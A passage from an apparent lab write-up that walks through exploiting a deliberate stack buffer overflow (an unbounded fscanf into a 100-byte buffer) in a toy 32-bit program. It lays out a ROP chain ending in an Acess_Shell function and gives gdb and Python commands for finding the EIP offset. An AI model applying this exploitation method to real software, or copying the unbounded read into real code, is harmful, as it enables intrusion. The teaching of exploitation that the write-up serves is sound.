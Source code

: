 Buffer overflow happens at line 49:
```c
    void read_file(char* name)
    {
        char input[100];
        fp = fopen ("input.txt", "r");
        ...
        ...
49:     fscanf(fp, "%s", input);
    }
```
**input.txt** is read and copied into **input** which has a size of 100 bytes.

We can overflow **input** by putting more bytes in **input.txt**. We have to overflow input to reach **EIP**. We can do this by writing junk bytes (padding) until we get to **EIP**. This padding is followed by our rop chain:

```
Padding + &correct_answer + &[pop ret] + 0xdabbadaa + 
&wrong_answer + &[pop pop ret] + 0xfacebaad + 0xfacefeed +
0xfacedead + &Acess_Shell
```

So we should first find the size of the padding. Then we have to find addresses of the three mentioned functioned and gadgets for popping off their arguments from stack before calling the next function.

##### Finding EIP offset
We can follow a similar process to [finding rip offset](#finding-rip-offset):
```bash
cd part2
python3 -c 'print("A"*130)' | sudo tee input.txt
gdb ROP
```
We can add a breakpoint just before exiting ```read_file``` and inspect the stack around **EIP**:
```bash
(gdb) br *read_file + 170
(gdb) r aaa
(gdb) i frame
(gdb) x/30x 0xffffd50c - 32
```
The result:

![image](./pics/eipoffset.png)

